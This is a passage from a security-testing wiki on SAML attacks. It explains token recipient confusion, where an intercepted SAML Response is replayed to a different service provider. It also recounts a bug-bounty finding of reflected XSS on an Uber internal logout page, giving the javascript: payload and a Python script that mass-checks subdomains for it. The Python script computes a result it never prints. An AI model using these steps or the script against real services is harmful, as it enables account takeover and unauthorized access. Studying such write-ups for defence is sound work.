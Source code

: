 > The SubjectConfirmationData element specifies additional data that allows the subject to be confirmed or constrains the circumstances under which the act of subject confirmation can take place. Subject confirmation takes place when a relying party seeks to verify the relationship between an entity presenting the assertion \(that is, the attesting entity\) and the subject of the assertion’s claims.

The Recipient attribute found on the **SubjectConfirmationData element is a URL that specifies the location to which the Assertion must be delivered**. If the Recipient is a different Service Provider than the one who receives it, the Assertion should not be accepted.

### How-to <a id="token-recipient-confusion-how-to"></a>

SAML Token Recipient Confusion \(SAML-TRC\) has a few prequisite conditions in order for us to attempt exploitation. First, we **need** to have a **legitimate account on a Service Provider**. Second, **SP-Target must accept tokens issued by the same Identity Provider that services SP-Legit**.

The attack is relatively simple if the conditions are true. We **authenticate** to **SP-Legit** via the shared Identity Provider. We then **intercept the SAML Response on its way from the IdP to SP-Legit**. Once intercepted, we send the **SAML Response that was intended for SP-Legit to SP-Target instead.** If **SP-Target accepts the Assertion**; we’ll find ourselves logged in with the same account name as we have for SP-Legit and get access to SP-Target’s corresponding resources.

## XSS in Logout functionality

\(Access the [original research here](https://blog.fadyothman.com/how-i-discovered-xss-that-affects-over-20-uber-subdomains/)\)

After performing the directory brute forcing I found the following page:

```text
https://carbon-prototype.uberinternal.com:443/oidauth/logout
```

It's a logout page, I opened the above link and it did redirect me to the following page

```text
https://carbon-prototype.uberinternal.com/oidauth/prompt?base=https%3A%2F%2Fcarbon-prototype.uberinternal.com%3A443%2Foidauth&return_to=%2F%3Fopenid_c%3D1542156766.5%2FSnNQg%3D%3D&splash_disabled=1
```

The base parameter is taking a URL so how about replacing that with the old classic `javascript:alert(123);` to trigger an XSS.

### Mass Exploitation

Using [**SAMLExtractor**](https://github.com/fadyosman/SAMLExtractor) that can take a list of URLs and then give you back the callback \(SAML consume\) URL, I decided to feed the tool with all subdomains of `uberinternal.com` to see if there are other domains that use the same library and there was.

What I did next was to create a script that calls the vulnerable page `oidauth/prompt` and try the XSS and if my input is reflected it gives me a nice vulnerable message.

```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from colorama import init ,Fore, Back, Style
init()

with open("/home/fady/uberSAMLOIDAUTH") as urlList:
            for url in urlList:
                url2 = url.strip().split("oidauth")[0] + "oidauth/prompt?base=javascript%3Aalert(123)%3B%2F%2FFady&return_to=%2F%3Fopenid_c%3D1520758585.42StPDwQ%3D%3D&splash_disabled=1"
                request = requests.get(url2, allow_redirects=True,verify=False)
                doesit = Fore.RED + "no"
                if ("Fady" in request.content):
                    doesit = Fore.GREEN + "yes"
                print(Fore.WHITE + url2)
```